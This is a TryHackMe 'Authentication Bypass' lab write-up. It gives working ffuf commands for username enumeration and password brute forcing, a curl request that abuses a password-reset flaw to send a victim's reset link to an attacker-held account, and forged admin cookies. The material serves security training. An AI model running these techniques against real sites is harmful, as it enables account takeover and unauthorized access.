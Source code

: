 # Authentication Bypass

### Task 1: Brief

This task was about setting up the VPN connection to the THM network.

### Task 2: Username Enumeration

I ran the command `ffuf -w names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.220.210/customers/signup -mr "username already exists"`, and I got the following output:

![](<../../.gitbook/assets/image (568).png>)

### Task 3: Brute Force

I ran the following command:

`ffuf -w valid_usernames.txt:W1,10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.220.210/customers/login -fc 200`

I then got this as the result:

![](<../../.gitbook/assets/image (466).png>)

### Task 4: Logic Flaw

For this one, you have to modify the command to be for the attacker, in this case, **Steve**. Since we have access to Steve's account, we can get the password reset email forwarded there:

`curl 'http://10.10.220.210/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=steve@customer.acmeitsupport.thm'`

After clicking on the reset link, you see the following in your Support Tickets:

![](<../../.gitbook/assets/image (621).png>)

### Task 5: Cookie Tampering

For the first question, the command to get the flag is already given to you by THM:

`curl -H "Cookie: logged_in=true; admin=true" http://10.10.220.210/cookie-test`

![](<../../.gitbook/assets/image (410).png>)

For the next question, I used [https://crackstation.net/](https://crackstation.net/), in order to crack the MD5 hash of 3b2a1053e3270077456a79192070aa78:

![](<../../.gitbook/assets/image (370) (1) (1).png>)

For the next question, I ran the following command:

`echo "VEhNe0JBU0U2NF9FTkNPRElOR30=" | base64 -d`

This gave me the flag:

![](<../../.gitbook/assets/image (515).png>)

The last question I just had to change the previous step a bit. In order to encode, you just take the `-d` flag out. I then entered the following command and got the flag:

`echo "{"id":1,"admin":true}" | base64`

![](<../../.gitbook/assets/image (570).png>)
